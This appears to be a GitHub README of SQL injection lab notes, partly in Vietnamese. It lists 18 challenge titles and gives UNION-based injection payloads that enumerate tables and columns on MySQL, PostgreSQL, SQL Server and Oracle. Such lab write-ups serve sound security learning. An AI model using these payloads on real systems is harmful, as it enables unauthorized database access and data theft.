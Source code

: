 ## Challenge 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
## Challenge 2: SQL injection vulnerability allowing login bypass
## Challenge 3: SQL injection attack, querying the database type and version on Oracle
## Challenge 4: SQL injection attack, querying the database type and version on MySQL and Microsoft
## Challenge 5: SQL injection attack, listing the database contents on non-Oracle databases
## Challenge 6: SQL injection attack, listing the database contents on Oracle
## Challenge 7: SQL injection UNION attack, determining the number of columns returned by the query
## Challenge 8: SQL injection UNION attack, finding a column containing text
## Challenge 9: SQL injection UNION attack, retrieving data from other tables
## Challenge 10: SQL injection UNION attack, retrieving multiple values in a single column
## Challenge 11: Blind SQL injection with conditional responses
## Challenge 12: Blind SQL injection with conditional errors
## Challenge 13: Visible error-based SQL injection
## Challenge 14: Blind SQL injection with time delays
## Challenge 15: Blind SQL injection with time delays and information retrieval
## Challenge 16: Blind SQL injection with out-of-band interaction
## Challenge 17: Blind SQL injection with out-of-band data exfiltration
## Challenge 18: SQL injection with filter bypass via XML encoding

**1. MySQL**

Trong MySQL, thông tin về cơ sở dữ liệu, bảng và cột được lưu trong information_schema:

+ information_schema.tables: Chứa danh sách các bảng.
+ information_schema.columns: Chứa danh sách các cột.

_Lấy danh sách các bảng:_

```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Kết quả: Trả về danh sách tên bảng trong cơ sở dữ liệu.

_Lấy danh sách các cột của một bảng (ví dụ: bảng users):_

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```

Kết quả: Trả về danh sách tên cột trong bảng users.

**2. PostgreSQL**

Trong PostgreSQL, thông tin về cơ sở dữ liệu được lưu trong các bảng pg_catalog:

+ pg_catalog.pg_tables: Chứa danh sách các bảng.
+ pg_catalog.pg_attribute: Chứa danh sách các cột.

_Lấy danh sách các bảng:_

```
' UNION SELECT tablename, NULL FROM pg_catalog.pg_tables WHERE schemaname='public'--
```

Kết quả: Trả về danh sách các bảng trong schema public.

_Lấy danh sách các cột của một bảng (ví dụ: bảng users):_

```
' UNION SELECT attname, NULL FROM pg_catalog.pg_attribute WHERE attrelid = (SELECT oid FROM pg_catalog.pg_class WHERE relname='users')--
```

Kết quả: Trả về danh sách cột của bảng users

**3. SQL Server**

Trong SQL Server, thông tin về cơ sở dữ liệu được lưu trong bảng hệ thống:

+ sys.tables: Chứa danh sách các bảng.
+ sys.columns: Chứa danh sách các cột.

_Lấy danh sách các bảng:_

```
' UNION SELECT name, NULL FROM sys.tables--
```

Kết quả: Trả về danh sách các bảng.

_Lấy danh sách các cột của một bảng (ví dụ: bảng users):_

```
' UNION SELECT name, NULL FROM sys.columns WHERE object_id = OBJECT_ID('users')--
```

Kết quả: Trả về danh sách các cột trong bảng users.

**4. Oracle**

Trong Oracle, thông tin về cơ sở dữ liệu, bảng và cột được lưu trong các dictionary views:

+ USER_TABLES: Chứa danh sách các bảng thuộc user hiện tại.
+ USER_TAB_COLUMNS: Chứa danh sách các cột trong các bảng của user hiện tại.

_Lấy danh sách các bảng:_

```
' UNION SELECT TABLE_NAME, NULL FROM USER_TABLES--  
```

Kết quả: Trả về danh sách các bảng.

_Lấy danh sách các cột của một bảng (ví dụ: bảng USERS):_

```
' UNION SELECT COLUMN_NAME, NULL FROM USER_TAB_COLUMNS WHERE TABLE_NAME = 'USERS'--  
```

Kết quả: Trả về danh sách các cột trong bảng USERS.
